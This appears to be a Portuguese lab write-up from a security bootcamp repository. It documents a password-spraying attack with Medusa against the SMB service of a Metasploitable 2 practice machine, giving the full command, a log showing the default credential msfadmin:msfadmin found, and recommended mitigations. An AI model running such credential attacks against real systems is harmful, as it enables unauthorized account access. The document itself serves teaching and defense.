

# SMB-01 – Password Spraying em SMB (Metasploitable 2)

## 📌 Objetivo
Executar um ataque de **password‑spraying** contra o serviço **SMB** da máquina **Metasploitable 2** (IP `192.168.1.11`) usando a ferramenta **Medusa**. Diferente da força bruta tradicional, o password‑spraying tenta a **mesma senha** em **vários usuários**, reduzindo a chance de bloqueio por tentativas excessivas.

## 🛠️ Pré‑requisitos
- Kali Linux (IP `192.168.1.10`) com Medusa instalado (`sudo apt install medusa`).
- Metasploitable 2 rodando o serviço SMB (`smbd`).
- Wordlists:
  - `users.txt` – lista de usuários a serem testados (`msfadmin`, `service`, `user`).
  - `common_pass.txt` – senha única a ser testada contra todos os usuários (ex.: `msfadmin`).

## 🚀 Comando executado
```bash
medusa -h 192.168.1.11 \
       -U users.txt \
       -p msfadmin \
       -M smb \
       -t 5 -v 2 \
       | tee smb01.log
```
> `-p` indica a **senha única** a ser usada (password‑spraying). `-t 5` paraleliza até 5 tentativas simultâneas.

## 📄 Resultados (log resumido)
O log completo está em `smb01.log`. Extractos relevantes:
```
2026-11-17 22:15:19 ACCOUNT CHECK: [smb] Host: 192.168.1.11 User: msfadmin Password: msfadmin
2026-11-17 22:15:19 ACCOUNT FOUND: [smb] Host: 192.168.1.11 User: msfadmin Password: msfadmin [SUCCESS]
2026-11-17 22:15:21 ACCOUNT CHECK: [smb] Host: 192.168.1.11 User: service Password: msfadmin
2026-11-17 22:15:21 ACCOUNT CHECK: [smb] Host: 192.168.1.11 User: user Password: msfadmin
```
A credencial **`msfadmin:msfadmin`** foi descoberta; as demais contas (`service`, `user`) não autenticaram com a mesma senha.

## 📸 Captura de tela


## 🛡️ Mitigações recomendadas
- **Habilitar bloqueio de conta** após múltiplas tentativas falhas (ex.: `pam_tally2`).
- **Limitar tentativas** por origem IP via firewall ou `fail2ban`.
- Utilizar **senhas fortes e distintas** para cada conta.
- **Desativar SMBv1** e aplicar as últimas atualizações de segurança.
- Restringir **acesso ao SMB** apenas a hosts confiáveis.

---
**Referências**
- Medusa manual: `man medusa`.
- Metasploitable 2 – descrição dos serviços vulneráveis: https://github.com/rapid7/metasploitable2

*Este arquivo integra a documentação do repositório `bootcamp‑dio` e demonstra o cenário SMB‑01.*
